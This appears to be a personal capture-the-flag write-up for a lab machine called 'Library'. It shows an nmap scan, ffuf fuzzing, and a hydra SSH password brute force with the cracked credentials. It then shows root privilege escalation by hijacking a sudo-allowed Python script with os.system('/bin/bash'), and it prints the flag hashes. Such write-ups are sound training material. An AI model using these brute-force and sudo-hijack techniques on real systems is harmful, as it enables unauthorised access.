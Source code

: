 ## Nmap

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c42fc34767063204ef92918e0587d5dc (RSA)
|   256 689213ec9479dcbb7702da99bfb69db0 (ECDSA)
|_  256 43e824fcd8b8d3aac248089751dc5b7d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Welcome to  Blog - Library Machine
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## HTTP

So after visiting the website i tried web directory brute forcing using all possible and every tool in know because i was not able to find anythin usefull

there was on entry on /robots.txt file which said 

user agent: rockyou

and i thought i was supposed to put "User Agent Header as words in rock you wordlist"


so i used

```
[parrot]─[01:11-30/06]─[/home/glack/Desktop/THM]
└╼glack$ffuf -w /usr/share/wordlists/rockyou.txt:FUZZ -u http://10.10.72.247/ -H 'User-Agent:FUZZ' -fs 5439
```

And i was wrong after checking the writeup i realised and missed the easy username on the website


## SSH

After which I bruteforced ssh using hydra

```
[parrot]─[02:56-30/06]─[/home/glack/Desktop/THM]
└╼glack$hydra -l meliodas -P /usr/share/wordlists/rockyou.txt 10.10.137.2 ssh
```

```
22][ssh] host: 10.10.137.2   login: meliodas   password: iloveyou1
```

And i got the password


user.txt

```
6d488cbb3f111d135722c33cb635f4ec
```


## Priv ESC

so the answere to priv esc for with

```
sudo -l


/usr/bin/python /home/meliodas/bak.py 
```

So I got stuck here again as i didnt completely uderstood the python code and used the writeup here

https://r4bb1t.medium.com/library-write-up-7dd5d5c5a9eb


So all we had to do was create another file here with the contents as below

```
import os  
  
ZIP_DEFLATED = 1  
  
def ZipFile(param1, param2, param3):  
        print(os.system('/bin/bash'))
```

and run the sudo command again


```
meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py 
root@ubuntu:~# 

```

And we get Root

```
e8c8c6c256c35515d1d344ee0488c617
```


---

2nd solving

- got stuck at priv esc
- tried to use different python script and shellgen's one line script but was not working
- used below script

```
meliodas@ubuntu:~$ touch bak.py
meliodas@ubuntu:~$ echo "import os" > bak.py
meliodas@ubuntu:~$ echo "print(os.system('/bin/bash'))" >> bak.py


meliodas@ubuntu:~$ sudo /usr/bin/python /home/meliodas/bak.py
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```

- and got the root
```
root@ubuntu:/root# cat root.txt 
e8c8c6c256c35515d1d344ee0488c617
```